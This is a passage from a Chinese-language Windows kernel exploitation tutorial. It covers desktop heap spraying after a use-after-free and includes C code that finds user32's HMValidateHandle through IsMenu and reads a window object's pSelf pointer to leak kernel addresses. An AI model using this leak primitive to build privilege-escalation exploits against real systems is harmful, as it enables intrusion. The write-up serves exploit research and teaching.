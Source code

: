 初始化设置完成之后理想的桌面堆应该如下图，两个一组，依次循环

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01ce49a56b237b6b07.png)

接下来就是我们的监视桌面堆的阶段了，我们来查看一下 UAF 之后改变了什么，不过这里就会有个问题，我们应该如何监视我们的桌面堆呢？下面是我最常用的代码片断，参考自[sam-b师傅的GitHub项目](https://github.com/sam-b/windows_kernel_address_leaks/blob/master/HMValidateHandle/HMValidateHandle/HMValidateHandle.cpp)

```
__debugbreak();
PTHRDESKHEAD tagWND = (PTHRDESKHEAD)pHmValidateHandle(hwnd, 1);
__debugbreak();
UINT64 addr = (UINT64)tagWND-&gt;pSelf; // 这里赋值一下再打印是为了防止VS编译器的优化
printf("[+] spray_step_one[0] address is : 0x%pn", addr);
```

实现函数如下， 我们在 user32 中寻找 HMValidateHandle 函数, 该函数在 IsMenu 函数中有被调用，所以可以通过硬编码比较的方式获取 HMValidateHandle 的地址，然而这个函数有一个 pSelf 指针，可以泄露内核地址

```
extern "C" lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle() `{`
    HMODULE hUser32 = LoadLibraryA("user32.dll");
    if (hUser32 == NULL) `{`
        printf("[*] Failed to load user32n");
        return FALSE;
    `}`

    BYTE* pIsMenu = (BYTE*)GetProcAddress(hUser32, "IsMenu");
    if (pIsMenu == NULL) `{`
        printf("[*] Failed to find location of exported function 'IsMenu' within user32.dlln");
        return FALSE;
    `}`
    unsigned int uiHMValidateHandleOffset = 0;
    for (unsigned int i = 0; i &lt; 0x1000; i++) `{`
        BYTE* test = pIsMenu + i;
        if (*test == 0xE8) `{`
            uiHMValidateHandleOffset = i + 1;
            break;
        `}`
    `}`
    if (uiHMValidateHandleOffset == 0) `{`
        printf("[*] Failed to find offset of HMValidateHandle from location of 'IsMenu'n");
        return FALSE;
    `}`

    unsigned int addr = *(unsigned int*)(pIsMenu + uiHMValidateHandleOffset);
    unsigned int offset = ((unsigned int)pIsMenu - (unsigned int)hUser32) + addr;
    //The +11 is to skip the padding bytes as on Windows 10 these aren't nops
    pHmValidateHandle = (lHMValidateHandle)((ULONG_PTR)hUser32 + offset + 11);
    return TRUE;
`}`
```
